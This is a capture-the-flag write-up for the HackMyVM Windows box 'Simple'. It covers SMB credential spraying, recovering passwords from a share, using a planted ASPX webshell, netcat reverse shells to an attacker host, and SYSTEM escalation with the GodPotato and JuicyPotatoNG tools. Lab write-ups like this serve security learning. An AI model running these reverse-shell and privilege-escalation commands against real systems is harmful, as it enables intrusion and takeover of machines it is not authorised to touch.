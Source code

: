```yaml
---
title: Simple - HackMyVM Writeup
date: 2023-10-15
categories: [Writeups, HMV]
tags: [Windows, PrivEsc, File Upload]
---
```


![](/assets/img/Simple/simple.png)

Hello everyone! Today we're going to be solving a really fun and easy box that a friend of mine (GatoGamer) did for the platform HackMyVM. This is a Windows box, and it's great for begginers. Nothing left to say, let's begin!

## Enumeration
---
### Ports

As always we start with the `nmap`:

```bash
nmap -sCV -p80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49675 192.168.0.105 -oN targeted
```

![](/assets/img/Simple/1.png)

Looking at these results we can go and check out the web on port 80.

### Web

Taking a look at the web we can see some possible users. Let's write that down.

![](/assets/img/Simple/2.png)

### SMB

We can seve those names and try to brute force with `crackmapexec`:

```bash
cme smb 192.168.0.105 -u users -p users --no-bruteforce --continue-on-success
```

![](/assets/img/Simple/3.png)

Here we can notice that the credentials `bogo:bogo` are valid to log in into SMB. Let's check the shares as `bogo`:

```bash
cme smb 192.168.0.105 -u bogo -p bogo --shares
```

![](/assets/img/Simple/4.png)

Let's see what is inside of the share `LOGS`:

```bash
impacket-smbclient simple.hmv/bogo:bogo@192.168.0.105
```

![](/assets/img/Simple/5.png)

If we check the log we can notice a credential for `marcos`:

![](/assets/img/Simple/6.png)

Now we can again enumerate SMB, but this time the WEB share:

```bash
impacket-smbclient simple.hmv/marcos:SuperPassword@192.168.0.105
```

![](/assets/img/Simple/7.png)

Here we can see that i've alredy putted an aspx webshell called [cmd.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx):

And we can execute commands as the service account that runs the IIS service:

![](/assets/img/Simple/8.png)

It worth to know that **all service accounts** will have the `SeImpersonatePrivilege`, so we can escalate our privileges quite easyily. I'll show two ways.

## PrivEsc
---

First of all, we'll get a shell as the IIS user:

```powershell
/c \\192.168.0.117\smbFolder\nc.exe -e cmd 192.168.0.117 443
```

![](/assets/img/Simple/9.png)

```bash
rlwrap nc -lvnp 443
```

![](/assets/img/Simple/10.png)

### JuicyPotatoNG

First, we'll download the [binary](https://github.com/antonioCoco/JuicyPotatoNG.git). Then, we'll copy it into the victim box. After that, we'll execute the following command and we'll get a reverse shell as `nt authority\system`:

```powershell
.\JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c \\192.168.0.117\smbFolder\nc.exe -e cmd 192.168.0.117 9001"
```

This isn't gonna work tho. You know, because of the CLSID of an actual system :|

### GodPotato

This tool work. The same procedure as JuicyPotato, just upload the [binary](https://github.com/BeichenDream/GodPotato) to the victim box and run the following command:

```powershell
.\GodPotato-NET4.exe -cmd "whoami"
```

![](/assets/img/Simple/11.png)

We can see that we are now `nt authority system`! Let's get a shell:

```powershell
.\GodPotato-NET4.exe -cmd ".\nc.exe -e cmd 192.168.0.117 9001"
```
![](/assets/img/Simple/12.png)

Now you can read the flags in:

```
C:\Users\marcos\Desktop\user.txt
C:\Users\Administrator\Desktop\root.txt
```
